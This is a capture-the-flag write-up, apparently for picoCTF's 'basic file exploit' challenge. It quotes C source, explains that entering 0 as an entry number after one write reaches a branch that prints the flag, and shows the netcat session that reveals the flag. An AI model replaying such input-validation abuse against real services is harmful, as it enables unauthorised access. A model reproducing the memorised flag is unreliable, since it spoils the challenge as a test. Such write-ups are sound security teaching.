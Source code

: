 # BASIC FILE EXPLOIT

## OVERVIEW & IDEA

- This challenge gives us a source code of program. Its functionality looks like read and write into a database.

- Source code has declared flag in global, so I will look up code that is related flag. Then I found this in `data_read()`

```c
static const char* flag = "[REDACTED]";

static char data[10][100];
static int input_lengths[10];
static int inputs = 0;
```

```c
if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
}
```

- To reach into that if, we must ensure we enter command equal `2` and the `inputs` is not equal `0`.

```c
if (inputs == 0) {
    puts("No data yet");
    continue;
}
data_read();
puts("Read successful, would you like to do anything else?");
```

- To make `inputs != 0` we just go through the `data_write()`.

- And finally, when we go into `data_read()` we just enter `0` for `entry` to pass the `if ((entry_number = strtol(entry, NULL, 10)) == 0)` and get the flag.

## DETAILS & EXPLOIT

```
λ ~/ nc saturn.picoctf.net 55825
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
dafcuk
dafcuk
Please enter the length of your data:
6
6
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
0
0
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_68466E2F}
```
